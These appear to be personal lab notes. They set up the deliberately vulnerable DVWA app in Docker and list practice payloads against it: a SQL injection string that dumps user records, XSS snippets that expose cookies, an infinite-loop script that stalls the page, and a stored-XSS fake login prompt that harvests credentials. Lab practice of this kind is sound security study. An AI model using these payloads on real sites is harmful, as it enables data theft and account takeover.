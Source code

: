 # Web Security

To run DVWA easily:
1. Install docker
2. Run docker
3. Enter the following command

```docker run --rm -it -p 80:80 vulnerables/web-dvwa```

4. Go to `localhost:80' (firefox is better than chrome since chrome as anti-xss stuff)
5. Enter `admin` and `password`
6. Scroll down and click create and reset database
7. Log back in using the same credentials


SQL Injection:
Displays all records in DB:

Query being run by the server:

```SELECT first_name, last_name FROM users WHERE user_id = '$id'```
\
\
\
\
\
\
\
\
\
\
Substitute the following in:
```%' or '0'='0```

DOM XSS:

```?default=<script>alert(document.cookie)</script>```

Onetime XSS:

```<script>alert(document.cookie)</script>```

Stall/Crash server:

```<script>for(;;){}</script>```

Stored XSS:

Enter the following:

```
So happy to be here
<script>
  alert("Hi, we need you to login once more before you can sign the book");
  var user = prompt("Please enter your username");
  var pwd = prompt("Please enter your password");
</script>
```


